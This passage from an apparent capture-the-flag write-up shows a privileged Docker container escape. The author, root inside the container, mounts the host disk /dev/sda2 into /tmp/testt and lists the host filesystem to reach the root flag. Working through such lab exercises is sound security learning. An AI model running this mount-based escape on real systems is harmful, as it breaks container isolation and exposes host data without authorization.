 ```
drwxr-xr-x   1 root root 4096 Nov 13  2018 var
```

I realized that i was inside container (file .dockerenv). But with root privilege.

### Docker Escaping

I did some google fu about privilege escalation in docker with privileged permission and found this article:

[Docker escaping](https://book.hacktricks.xyz/linux-unix/privilege-escalation/escaping-from-a-docker-container)

So i tried to reproduced these steps:

``` 
root@gitlab:/# mkdir /tmp/testt
mkdir /tmp/testt
root@gitlab:/# df -h
Filesystem      Size  Used Avail Use% Mounted on
overlay          18G   12G  5.7G  68% /
tmpfs            64M     0   64M   0% /dev
tmpfs           2.0G     0  2.0G   0% /sys/fs/cgroup
/dev/sda2        18G   12G  5.7G  68% /root_pass
shm              64M  608K   64M   1% /dev/shm
root@gitlab:/# mount /dev/sda2 /tmp/testt
mount /dev/sda2 /tmp/testt
```
## Root Flag

So i mounted filesystem inside my testt folder:
 
```
root@gitlab:/# ls -la /tmp/testt
ls -la /tmp/testt
total 100
drwxr-xr-x  20 root root  4096 Dec  7 17:44 .
drwxrwxrwt   1 root root  4096 Dec 19 13:57 ..
lrwxrwxrwx   1 root root     7 Apr 23  2020 bin -> usr/bin
drwxr-xr-x   3 root root  4096 Jul  3 06:34 boot
drwxr-xr-x   2 root root  4096 May  7  2020 cdrom
drwxr-xr-x   5 root root  4096 Dec  4 15:20 dev
drwxr-xr-x 101 root root  4096 Dec  8 16:49 etc
drwxr-xr-x   3 root root  4096 Jul  7 10:36 home
lrwxrwxrwx   1 root root     7 Apr 23  2020 lib -> usr/lib
lrwxrwxrwx   1 root root     9 Apr 23  2020 lib32 -> usr/lib32
lrwxrwxrwx   1 root root     9 Apr 23  2020 lib64 -> usr/lib64
lrwxrwxrwx   1 root root    10 Apr 23  2020 libx32 -> usr/libx32
drwx------   2 root root 16384 May  7  2020 lost+found
drwxr-xr-x   2 root root  4096 Apr 23  2020 media
drwxr-xr-x   2 root root  4096 Apr 23  2020 mnt
drwxr-xr-x   3 root root  4096 Jun 15  2020 opt
drwxr-xr-x   2 root root  4096 Apr 15  2020 proc
drwx------  10 root root  4096 Dec  7 17:02 root
drwxr-xr-x  10 root root  4096 Apr 23  2020 run
lrwxrwxrwx   1 root root     8 Apr 23  2020 sbin -> usr/sbin
drwxr-xr-x   6 root root  4096 May  7  2020 snap
drwxr-xr-x   2 root root  4096 Apr 23  2020 srv
drwxr-xr-x   2 root root  4096 Apr 15  2020 sys
drwxrwxrwt  12 root root 12288 Dec 19 14:01 tmp
drwxr-xr-x  14 root root  4096 Apr 23  2020 usr
drwxr-xr-x  14 root root  4096 Dec  4 15:20 var
```

and i could read root.txt 
